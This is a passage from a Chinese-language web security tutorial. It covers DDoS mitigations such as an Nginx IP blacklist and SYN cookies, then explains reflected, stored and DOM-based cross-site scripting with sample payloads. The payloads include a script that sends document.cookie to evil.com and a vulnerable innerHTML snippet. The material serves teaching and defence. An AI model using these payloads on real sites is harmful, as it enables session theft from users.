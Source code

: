 ```go
}
```

**3. IP 黑名單/白名單**
```nginx
# Nginx
geo $blocked {
    default 0;
    203.0.113.0/24 1;  # 黑名單段
}

if ($blocked) {
    return 403;
}
```

**4. SYN Cookies**
- 不分配資源直到收到 ACK
- 防止 SYN Flood

**5. 負載均衡與自動擴展**
- 分散攻擊流量
- 自動擴展資源應對突發流量

### 2. 跨站腳本攻擊 (XSS)

#### 攻擊原理

攻擊者注入惡意 JavaScript 代碼，在受害者瀏覽器執行。

**類型 1: 反射型 XSS (Reflected)**
```
攻擊 URL:
https://example.com/search?q=<script>alert(document.cookie)</script>

伺服器直接回顯查詢參數:
<p>搜尋結果: <script>alert(document.cookie)</script></p>

瀏覽器執行惡意腳本 → 竊取 Cookie
```

**類型 2: 儲存型 XSS (Stored)**
```
攻擊者在留言板發布:
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>

惡意代碼存入資料庫
→ 所有訪問該頁面的用戶都受影響
```

**類型 3: DOM-based XSS**
```javascript
// 前端代碼
const name = location.hash.substring(1);
document.getElementById('welcome').innerHTML = 'Hello ' + name;

攻擊 URL:
https://example.com/#<img src=x onerror=alert(document.cookie)>
```
